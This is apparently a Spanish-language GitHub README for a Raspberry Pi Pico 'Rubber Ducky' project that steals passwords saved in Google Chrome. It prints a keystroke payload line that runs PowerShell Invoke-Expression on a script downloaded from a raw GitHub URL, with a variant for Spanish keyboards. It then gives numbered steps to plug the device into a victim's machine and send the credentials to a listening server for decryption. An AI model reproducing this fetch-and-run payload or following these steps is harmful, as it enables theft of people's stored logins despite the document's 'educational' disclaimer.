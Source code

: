 🛑 Robo de Credenciales Guardadas en Chrome con Raspberry Pi Pico
Este proyecto demuestra cómo una Raspberry Pi Pico puede actuar como un Rubber Ducky para extraer credenciales almacenadas en Google Chrome, enviándolas a un servidor local para su desencriptado con Python.

⚠️ Este contenido es únicamente educativo. No me hago responsable del uso indebido.

📌 Archivos y estructura del proyecto
1️. Script inyectado por el Rubber Ducky (ininit.ps1)
Dentro del archivo payload.dd, se ejecutará el siguiente comando:

🔹 Distribución en inglés (ENG)
STRING Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/jndr332/RubberPico/refs/heads/main/ininit.ps1").Content

🔹 Distribución en español (ESP)
STRING Invoke/Expression *Invoke/WebRequest /Uri @https>&&raw.githubusercontent.com&jndr332&RubberPico&refs&heads&main&ininit.ps1@(.Content

📝 Nota: Dependiendo de la distribución del teclado, algunos caracteres pueden diferir. Aquí tienes opciones para español e inglés.

2.  Archivos en el servidor
El servidor recibe los datos extraídos y los desencripta con Python. Los archivos clave son:

📌 server.py → Escucha las conexiones y recibe las credenciales.
📌 decipher.py → Se encarga del desencriptado de las contraseñas.

💡 Recuerda ejecutar server.py antes de iniciar el ataque, para asegurarte de que el servidor esté escuchando correctamente.



¿Cómo Usarlo?
1️⃣ Configura tu Raspberry Pi Pico como Rubber Ducky.
2️⃣ Carga el payload (payload.dd) en el Pi Pico.
3️⃣ Inicia server.py en tu máquina receptora.
4️⃣ Conecta la Raspberry Pi Pico a la máquina víctima y espera la ejecución.
5️⃣ Las credenciales extraídas se recibirán en el servidor y se descifrarán con decipher.py.

